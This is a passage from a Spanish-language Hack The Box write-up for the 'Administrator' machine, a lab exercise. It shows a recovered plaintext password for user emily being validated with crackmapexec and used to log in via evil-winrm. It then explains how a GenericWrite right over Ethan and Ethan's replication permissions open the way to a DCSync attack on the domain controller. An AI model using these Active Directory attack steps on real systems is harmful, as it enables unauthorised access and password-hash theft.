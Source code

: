 Al acceder a la base de datos, encuentro múltiples credenciales. Sólo una de ellas resulta válida `emily`:`UXLCI5iETUsIBoFVTj8yQFKoHjXmb`.

Con estas credenciales, ingreso exitosamente al sistema mediante el servicio WinRM.

```terminal
/home/kali/Documents/htb/machines/administrator:-$ crackmapexec winrm administrator.htb -u "emily" -p "UXLCI5iETUsIBoFVTj8yQFKoHjXmb"
SMB         administrator.htb 5985   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:administrator.htb)
HTTP        administrator.htb 5985   DC               [*] http://administrator.htb:5985/wsman
WINRM       administrator.htb 5985   DC               [+] administrator.htb\emily:UXLCI5iETUsIBoFVTj8yQFKoHjXmb (Pwn3d!)


/home/kali/Documents/htb/machines/administrator:-$ evil-winrm -i administrator.htb -u emily -p "UXLCI5iETUsIBoFVTj8yQFKoHjXmb"

*Evil-WinRM* PS C:\Users\emily> type Desktop/user.txt
```

---
## Privilege Escalation

`Emily` tiene permisos de tipo `GenericWrite` sobre el usuario `ETHAN@ADMINISTRATOR.HTB`. Esto permite modificar ciertos atributos del objeto `Ethan`, como por ejemplo el `servicePrincipalName`.

![](assets/img/htb-writeup-administrator/administrator4_1.png)

Por otro lado, el usuario `ETHAN@ADMINISTRATOR.HTB` posee privilegios extendidos sobre el objeto del controlador de dominio `ADMINISTRATOR.HTB`. Específicamente, cuenta con los permisos `GetChanges`, `GetChangesInFilteredSet` y `GetChangesAll`. Este conjunto de permisos indica que el usuario tiene capacidad para ejecutar un ataque [DCSync](https://www.thehacker.recipes/ad/movement/credentials/dumping/dcsync#dcsync), el cual permite replicar hashes de contraseñas directamente desde el controlador de dominio, simulando el comportamiento de un Domain Controller.
